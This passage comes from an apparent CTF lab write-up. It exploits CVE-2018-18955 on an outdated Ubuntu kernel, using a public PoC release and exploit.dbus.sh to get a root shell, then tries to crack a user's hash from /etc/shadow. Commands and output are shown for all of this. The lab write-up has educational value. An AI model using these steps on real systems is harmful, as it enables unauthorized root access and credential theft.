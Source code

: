 The kernel running on the machine seems to be outdated.
```console
beth@london:~$ uname -a
Linux london 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
```

### CVE-2018-18955
`linpeas` suggests that `[CVE-2018-18955] subuid_shell` kernel exploit might help to escalate privileges.

> [nist.gov](https://nvd.nist.gov/vuln/detail/CVE-2018-18955) - CVE-2018-18955
> 
> In the Linux kernel 4.15.x through 4.19.x before 4.19.2, map_write() in kernel/user_namespace.c allows privilege escalation because it mishandles nested user namespaces with more than 5 UID or GID ranges. A user who has CAP_SYS_ADMIN in an affected user namespace can bypass access controls on resources outside the namespace, as demonstrated by reading /etc/shadow. This occurs because an ID transformation takes place properly for the namespaced-to-kernel direction but not for the kernel-to-namespaced direction.
{: .prompt-info}

`scheatkode` on GitHub already has everything we need to exploit this.

> [GitHub PoC](https://github.com/scheatkode/CVE-2018-18955) - CVE-2018-18955
> 
> Linux local root exploit. 
> Wrapper for Jann Horn's exploit for CVE-2018-18955, forked from kernel-exploits.
{: .prompt-tip}

After downloading the release [linux-x86_64.tar.gz](https://github.com/scheatkode/CVE-2018-18955/releases/download/v0.0.1/linux-x86_64.tar.gz) and getting it on the target machine, I ran some of the bash scripts. The one that worked for me was `exploit.dbus.sh`.

The `root.txt` file can be found inside root's home directory.

```console
beth@london:~$ tar -xvf ./linux-x86_64.tar.gz && cd linux-x86_64
beth@london:~/linux-x86_64$ ./exploit.dbus.sh 
[*] Compiling...
[*] Creating /usr/share/dbus-1/system-services/org.subuid.Service.service...
[.] starting
[.] setting up namespace
...
[+] Success:
-rwsrwxr-x 1 root root 8392 Sep 28 08:46 /tmp/sh
[*] Cleaning up...
[*] Launching root shell: /tmp/sh
root@london:~/linux-x86_64# id
uid=0(root) gid=0(root) groups=0(root),1000(beth)
root@london:/root# cat .root.txt 
THM{[REDACTED]}
```

## Charles's Password
Once I got root, I tried cracking `charles`'s hash inside `/etc/shadow` with no luck. That's when I found a directory called `.mozilla` inside `charles`'s home directory.
